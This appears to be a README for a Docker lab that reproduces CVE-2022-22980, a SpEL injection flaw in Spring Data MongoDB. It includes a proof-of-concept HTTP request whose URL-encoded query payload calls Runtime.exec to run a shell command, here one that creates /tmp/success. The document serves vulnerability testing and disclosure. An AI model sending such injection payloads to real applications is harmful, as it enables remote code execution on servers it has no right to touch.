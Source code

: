 # Spring Data MongoDB SpEL Injection Vulnability(CVE-2022-22980)

## Introduction

A Spring Data MongoDB application is vulnerable to SpEL Injection when using @Query or @Aggregation-annotated query methods with SpEL expressions that contain query parameter placeholders for value binding if the input is not sanitized.

## Setup

Run

```bash
docker-compose up
```

and you can inject your spel to `http://localhost:8080/CVE-2022-22980?query=<payload>`.

## Poc

Send request below to create `/tmp/success` file.

```http
GET /CVE-2022-22980?query=%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%73%75%63%63%65%73%73%22%29 HTTP/1.1
Host: localhost
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1
```

![](screenshot.jpg)

## References

1. https://tanzu.vmware.com/security/cve-2022-22980
